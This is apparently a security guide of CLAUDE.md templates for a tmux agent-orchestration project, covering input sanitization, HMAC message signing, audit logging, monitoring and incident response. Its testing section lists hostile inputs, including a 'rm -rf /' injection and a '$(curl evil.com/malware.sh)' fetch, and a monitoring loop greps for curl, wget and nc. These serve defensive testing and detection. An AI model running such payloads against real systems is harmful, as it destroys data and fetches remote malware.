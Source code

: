 # Security Templates for CLAUDE.md Files

This document provides security-focused templates for CLAUDE.md files at different directory levels within the Tmux-Orchestrator project.

## Root Level CLAUDE.md Security Section

```markdown
# 🔐 CRITICAL SECURITY CONSTRAINTS 🔐

## Tmux Orchestration Security Requirements

### ABSOLUTE PROHIBITIONS
- 🚫 NEVER pass unsanitized user input to tmux commands
- 🚫 NEVER use shell metacharacters in tmux send-keys without validation
- 🚫 NEVER hardcode credentials or sensitive paths in scripts
- 🚫 NEVER create background processes without resource limits
- 🚫 NEVER skip authentication checks between agents

### MANDATORY SECURITY PRACTICES
- ✅ ALWAYS validate window/session format: `^[a-zA-Z0-9_-]+:[0-9]+$`
- ✅ ALWAYS use tmux send-keys with -l flag for literal strings
- ✅ ALWAYS sanitize messages by removing: `;|&$\`(){}[]<>\"'`
- ✅ ALWAYS check if target window exists before sending commands
- ✅ ALWAYS log all agent operations with timestamps and signatures

### Command Injection Prevention
```bash
# ❌ VULNERABLE - NEVER DO THIS
tmux send-keys -t "$WINDOW" "$USER_INPUT"

# ✅ SECURE - ALWAYS DO THIS
SAFE_INPUT=$(echo "$USER_INPUT" | tr -d ';&|`$(){}[]<>\"'\''')
tmux send-keys -t "$WINDOW" -l "$SAFE_INPUT"
```

### Audit Requirements
Every orchestration operation MUST generate an audit log entry:
```json
{
  "timestamp": "ISO-8601",
  "agent_id": "unique-identifier",
  "operation": "command_type",
  "target": "session:window",
  "status": "success|failure",
  "signature": "hmac-sha256"
}
```
```

## Scripts Directory CLAUDE.md Security Section

```markdown
## 🛡️ Script Security Guidelines

### Pre-Execution Security Checklist
Before running ANY orchestration script:
- [ ] Verify script has proper input validation
- [ ] Confirm no hardcoded sensitive data
- [ ] Check for command injection vulnerabilities
- [ ] Ensure audit logging is implemented
- [ ] Test with malicious inputs in safe environment

### Secure Script Template
All tmux orchestration scripts MUST follow this pattern:

```bash
#!/bin/bash
set -euo pipefail

# Security constants
readonly ALLOWED_WINDOW_PATTERN='^[a-zA-Z0-9_-]+:[0-9]+(\.[0-9]+)?$'
readonly DANGEROUS_CHARS=';&|`$(){}[]<>\"'\'''
readonly MAX_MESSAGE_LENGTH=1000
readonly AUDIT_LOG="/var/log/tmux-orchestrator/audit.log"

# Input validation function
validate_and_send() {
    local target="$1"
    local message="$2"
    
    # Validate target format
    if [[ ! "$target" =~ $ALLOWED_WINDOW_PATTERN ]]; then
        echo "ERROR: Invalid target format" >&2
        return 1
    fi
    
    # Check target exists
    if ! tmux has-session -t "${target%:*}" 2>/dev/null; then
        echo "ERROR: Session does not exist" >&2
        return 1
    fi
    
    # Sanitize message
    local safe_message
    safe_message=$(echo "$message" | tr -d "$DANGEROUS_CHARS" | cut -c1-$MAX_MESSAGE_LENGTH)
    
    # Audit log
    echo "$(date -u +%Y-%m-%dT%H:%M:%SZ) ACTION=send_message TARGET=$target LENGTH=${#safe_message}" >> "$AUDIT_LOG"
    
    # Send safely
    tmux send-keys -t "$target" -l "$safe_message"
    return 0
}
```

### Testing Requirements
Every script must be tested with these malicious inputs:
- `"; rm -rf /"`
- `"$(curl evil.com/malware.sh)"`
- `"\`malicious command\`"`
- `"../../../../etc/passwd"`
```

## Agent Communication CLAUDE.md Security Section

```markdown
## 🔒 Secure Agent Communication Protocol

### Message Authentication
All inter-agent messages MUST be authenticated:

```python
import hmac
import hashlib
import time
import json

class SecureAgentMessage:
    def __init__(self, sender_id, recipient_id, content, shared_secret):
        self.sender_id = sender_id
        self.recipient_id = recipient_id
        self.content = content
        self.timestamp = time.time()
        self.signature = self._generate_signature(shared_secret)
    
    def _generate_signature(self, secret):
        message_data = {
            'sender': self.sender_id,
            'recipient': self.recipient_id,
            'content': self.content,
            'timestamp': self.timestamp
        }
        message_json = json.dumps(message_data, sort_keys=True)
        return hmac.new(
            secret.encode('utf-8'),
            message_json.encode('utf-8'),
            hashlib.sha256
        ).hexdigest()
    
    def verify(self, shared_secret):
        expected_signature = self._generate_signature(shared_secret)
        return hmac.compare_digest(self.signature, expected_signature)
```

### Secure Channel Requirements
- Messages older than 5 minutes must be rejected
- Each agent pair must have unique shared secrets
- Secrets must be rotated every 24 hours
- Failed authentication must trigger alerts
```

## Project-Specific CLAUDE.md Security Section

```markdown
## 🚨 Project Security Context

### Known Vulnerabilities in This Project
1. **schedule_with_note.sh**: Command injection via message parameter
2. **send-claude-message.sh**: No input validation, allows arbitrary commands
3. **tmux_utils.py**: Weak safety mode, subprocess injection risks
4. **Background processes**: Unlimited nohup usage enables DoS

### Defensive Countermeasures
When working with existing scripts:
- Wrap all script calls with input validation
- Monitor tmux sessions for suspicious commands
- Implement rate limiting on message sending
- Add process count limits per agent

### Security Testing Commands
```bash
# Check for command injection attempts in logs
grep -E '(;|\||&|`|\$\(|{|}|\[|\]|<|>)' /var/log/tmux-orchestrator/*.log

# Monitor agent process counts
ps aux | grep tmux | awk '{print $1}' | sort | uniq -c | sort -rn

# Audit tmux session commands
for session in $(tmux list-sessions -F "#{session_name}"); do
    echo "=== Session: $session ==="
    tmux capture-pane -t "$session" -p | grep -E '(rm|curl|wget|nc|bash|sh)'
done
```
```

## Deployment CLAUDE.md Security Section

```markdown
## 🔐 Production Security Requirements

### Pre-Deployment Security Checklist
- [ ] All scripts pass security review
- [ ] Input validation implemented everywhere
- [ ] Audit logging configured and tested
- [ ] Resource limits applied to all processes
- [ ] Authentication required for all operations
- [ ] Monitoring alerts configured
- [ ] Incident response plan documented
- [ ] Security training completed by all operators

### Monitoring and Alerting
Set up alerts for:
- Command injection patterns in messages
- Authentication failures > 5 per minute
- Process count > 50 per agent
- Disk usage > 80% in log directory
- Network connections to unexpected IPs

### Emergency Response
If security incident detected:
1. Kill all tmux sessions: `tmux kill-server`
2. Preserve evidence: `tar -czf evidence_$(date +%s).tar.gz /var/log/tmux-orchestrator/`
3. Check for persistence: `crontab -l; at -l; systemctl list-timers`
4. Review audit logs for scope
5. Reset all agent credentials
6. Apply security patches before restart
```

## Usage Instructions

1. **For New Projects**: Copy relevant sections into your project's CLAUDE.md
2. **For Existing Projects**: Add security sections to current CLAUDE.md files
3. **For Scripts**: Include security template at the top of each directory
4. **For Agents**: Ensure each agent's instructions include security requirements

Remember: These templates provide defense-in-depth security awareness. The fundamental architecture of tmux-based orchestration has inherent security limitations that cannot be fully mitigated through defensive practices alone.